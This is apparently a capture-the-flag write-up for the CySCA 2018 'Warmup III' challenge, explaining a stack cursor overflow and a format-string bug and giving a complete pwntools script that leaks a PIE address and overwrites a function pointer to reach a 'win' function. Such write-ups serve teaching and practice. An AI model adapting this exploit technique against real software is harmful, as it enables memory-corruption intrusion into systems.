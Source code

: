 ```yaml
---
layout: post
title: CySCA 2018 | Warmup III Writeup
author: adamt
---
```


Another interesting challenge from the CySCA 2018 team.


This challenge included reverse engineering a unique command sequence, and then hijacking the logic of the program to leak memory addresses and eventually get shell.

The commands
-----------------------------------------

The program/shell was at its most basic level, a text editor in which you could move a cursor around and incremenet/decrement the value at a specific location & view the value at the cursor

The program/shell had 6 useful commands you could enter
<br />
The cursor by default is in the beginning of the buffer, the buffer is NULLed out memory.
<br />

* '+'   =>    Increment the value at the cursor
* '-'   =>    Decrement the value at the cursor
* 'd'   =>    Print the byte value at the cursor
* 'p'   =>    Set the buffer as the first argument to printf (printf is stored on the stack at address $rbp - 0x14)
* '>'   =>    Increment the cursor
* '<'   =>    Decrement the cursor

There are no checks done on the width/size of the buffer. The buffer is of 0x400 size stored at $rbp - 0x420. 

The Vulnerability
-------------------------------------------------

Firstly since there are no checks done on the boundary of the buffer, we are able to move the cursor to any arbritary location on the stack by incrementing/decrementing it. This coupled with the fact that we can write bytes to the cursor via the '+'/'-' commands allow for an arbritary write primitive to any address on the stack.

There is also a format string vulnerability via the 'p' command, as this treats the (user-controlled) buffer as the format argument to printf. This, paired with the arbritary write from above, allows us to leak values quickly off the stack.


The Exploit
-----------------------------------------------------

We first notice there is a `win` function include in the binary. This is our goal.
Also notice that the address of printf is stored on the stack, and so overriding this address, will result in arbritrary code execution.
<br />

```python
~/ctfs/cysca2018/binary   
❯ checksec chal3 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Notice that PiE is enabled. This means that in order find the address of `win` we need a leak.
Luckily we learnt earlier we have a format string vuln, so we write `%n$p` to the stack and chuck that in a loop to leak a few addresses.
<br />

We can do this by Incrementing each byte of the buffer to the correct ascii value, and then sending the print command

```
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>>p
```

Would print `ABC`, since we incrementing the first byte 0x41 times, then moved the cursor along... and so on.




After leaking stack addresses I noticed that `%136$p` leaked the address of \_start of the binary. This is -0x110 offset from the win function. Great! Now we have an address to jump to..
<br />

Next we just need to somehow overwrite the function pointer on the stack. Thats where our arbritrary write comes in (This could also be done with the format string from earlier). The function pointer is 0x408 bytes away from the start of the buffer. So moving the cursor 0x408 will place us right over the function pointer, allowing us to overwrite it. Yay!!!


Final Script:

```python
from pwn import *

p = process("./chal3") #remote("10.13.37.33", 10003)
INC = '+'
DEC = '-'
HPRINT = 'd'
PRINT = 'p'
NEXT = '>'
PREV = '<'
WIN = -0x110

# Write a value to the buffer.
# print the value
# Reset the buffer to all NULL's
def create_string(s):
    ret = ''
    for c in s:
        ret += ord(c) * INC # Write the character to the cursor
        ret += NEXT # Increment the cursor 
    ret += PRINT # Print the buffer

    for c in s[::-1]:
        ret += PREV # Decrement the cursor
        ret += ord(c) * DEC # Set the value at the cursor to 0
    return ret

def send(s):     
    a = create_string(s+'\n') + PRINT
    p.sendline(a)


def goforward(n):
    p.sendline(NEXT * n)

send("%136$p")
leak = int(p.recvline().strip()[2:], 16)
win_address = leak + WIN

goforward(0x408) # move the cursor over the pointer

for i in range(0, 8): # Write win_address to the printf address on the stack
    p.sendline(HPRINT) # Leak 1 byte of the address
    num = int(p.recvline(), 16)
    p.sendline(DEC * num)  # Set the byte to 0
    
    num = win_address & 0xFF # Calculate the next byte to write 
    win_address >>= 8
    
    p.sendline(INC * num) # Set the byte to the correct value
    p.sendline(NEXT)


p.sendline(PRINT) # Call the win function
p.interactive()
```




